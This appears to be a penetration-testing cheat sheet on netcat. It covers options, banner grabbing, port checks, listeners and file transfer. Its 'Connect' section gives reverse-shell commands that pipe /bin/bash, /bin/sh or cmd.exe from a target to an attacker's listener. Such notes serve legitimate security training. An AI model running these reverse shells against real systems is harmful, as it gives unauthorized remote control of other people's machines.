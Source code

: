 # netcat (nc)
> Netcat (the "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP.

## Contents
- [Intro](#)
  - [Remote Access Tool](#)
  - [Two Modes](#)
  - [Options](#)
- [Connecting to Ports (client mode)](#)
  - [Standard Syntax](#)
  - [Additional Information](#)
  - [Manually Check Ports](#)
- [Listener](#)
- [Connect](#)
  - [Connect to listener from Linux](#)
  - [Connect to listener from Windows](#)
- [File Input/Output](#)

## Intro

### Remote Access Tool
- NetCat is a popular remote access tool.
- It has a small footprint so it's portable. It can set up a reverse shell easily.
  - In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`
- Netcat can be used by penetration testers to perform the following functionality:
  - Banner Grabbing
  - Port Scanning
  - Tranferring Files
  - Bind/Reverse Shells
- Resources: [Simple How-To](https://jeffreytse.net/computer/2020/10/14/how-to-use-netcat-command.html) | [Basic Usage](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/)

### Two Modes
- Netcat utilizes a client-server communication architecture with two modes:
  - **Client [Connect] Mode:** Netcat can be used in a client mode to connect to any TCP/UDP port; it can also be used to connect to a remote listener (a remote Netcat server).
  - **Server [LIsten] Mode:** Netcat can be used to listen for connections from clients on a specific port.

### Options
- Some options to be aware of...
- `-v  --verbose` : set verbosity levels (`-v` is lower level, `-vv` is more, `-vvv`, etc.)
- `-u  --udp` : use UDP instead of the default TCP
- `-l  --listen` : bind (to a specified port) and listen for incoming connections
- `-n  --nodns` : do not resolve hostnames via DNS
- `-p  --source-port <port#>` : specify the source port to use
- `-e  --exec <command>` : executes the given command 

## Connecting to Ports (client mode)

### Standard Syntax
```
nc [target ip] [target port]  
nc 10.4.20.244 80              # example
```
- Netcat allows you to connect to a specific TCP or UDP port.
- This can allows you to do banner grabbing and things of that nature (once you connect, the target may give you a service banner with helpful information).

### Additional Information
- If your initial connection (like the above) results in nothing (no service banner), then you need to add some options.
```
nc -nv 10.4.20.244 80      # this will give you a little bit more information (e.g., confirmation of the connection).
nc -nvu 10.4.20.244 139    # check UDP
```

### Manually Check Ports
- Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## Listener
- Set up the listener on your attack machine:
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

## Connect

### Connect to the listener from a Linux target machine
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

### Connect to the listener from a Windows target machine
```
nc.exe [listener IP] [port] –e cmd.exe
```

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine (this can be used to transfer any type of file: text, binary, etc.):
```
nc [IP Address] [port] < filename.txt
```
